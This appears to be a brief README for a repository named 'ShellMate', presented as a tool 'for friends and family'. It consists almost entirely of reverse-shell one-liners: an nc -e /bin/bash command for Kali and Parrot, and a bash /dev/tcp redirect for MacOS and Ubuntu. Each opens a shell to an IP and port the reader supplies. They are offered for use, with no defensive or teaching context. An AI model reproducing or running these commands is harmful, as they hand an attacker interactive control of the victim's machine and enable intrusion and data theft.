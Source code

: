 # ShellMate

This is a Tool for friends and family.

CHANGE THE IP, it needs to be your IP.

Kali | Parrot --> nc -e /bin/bash $IP $PORT
MacOS --> bash -i >& /dev/tcp/$IP/$PORT 0>&1
Ubuntu --> bash -i >& /dev/tcp/$IP/$PORT 0>&1

Use it well ##
